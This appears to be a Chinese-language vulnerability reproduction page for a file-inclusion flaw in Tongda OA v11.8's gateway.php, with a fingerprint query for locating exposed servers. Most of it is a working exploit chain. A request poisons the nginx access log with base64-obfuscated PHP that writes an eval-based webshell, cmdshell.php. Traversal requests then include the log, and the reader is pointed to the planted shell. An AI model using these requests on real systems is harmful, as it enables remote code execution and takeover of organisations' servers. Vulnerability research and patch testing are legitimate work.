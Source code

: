 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a-20220313173009245.png)

发送恶意请求让日志被记录

```php
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/1628304243872-a7ae1965-2e21-4551-9d92-b42a3468617b.png)

在通过漏洞包含日志文件

```php
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](../../../.vuepress/public/img/1628304347438-754f2570-1b25-4e9e-b822-ec78c2ca944a.png)

再次发送恶意请求写入文件

```php
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](../../../.vuepress/public/img/1628304579748-4614da68-4756-43a6-b7c1-dc6e9e034819.png)

访问写入的文件 **/mac/cmdshell.php**![img](../../../.vuepress/public/img/1628304836865-aee81900-a2a1-402c-9915-77a3d908e480.png)